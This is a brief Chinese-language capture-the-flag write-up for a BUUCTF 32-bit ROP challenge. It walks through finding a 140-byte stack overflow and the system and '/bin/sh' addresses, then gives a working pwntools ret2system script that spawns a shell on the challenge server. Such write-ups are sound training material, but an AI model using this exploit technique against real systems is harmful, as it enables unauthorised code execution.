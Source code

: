 ### 32 位 ROP

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/677f5f6dd0e0a243d4f278c1.jpg)

32位 IDA 反编译

![](https://pic1.imgdb.cn/item/677f5f7dd0e0a243d4f278c3.jpg)

啊哈，一眼存在栈溢出

![](https://pic1.imgdb.cn/item/677f5f88d0e0a243d4f278c5.jpg)

查看内存需 140 个字节覆盖

![](https://pic1.imgdb.cn/item/677f5fa7d0e0a243d4f278c7.jpg)

Shift + F12 查看字符串，有可利用函数与字符串，构造 ROP

![](https://pic1.imgdb.cn/item/677f5fc6d0e0a243d4f278ca.jpg)

在 plt 表中拿到 system 地址

![](https://pic1.imgdb.cn/item/677f94d1d0e0a243d4f290a4.png)

**32 位中调用 system 函数时需要传入一个将来的返回地址，这个返回地址随意，但必须要有，返回地址后面则是参数**

```python
from pwn import *

p = remote('node5.buuoj.cn',29920)

binsh = 0x0804a024
system = 0x08048320

p.recvuntil('Input:\n')

payload = b'a' * 140 + p32(system) + p32(0) + p32(binsh)

p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/677f6039d0e0a243d4f278d8.jpg)
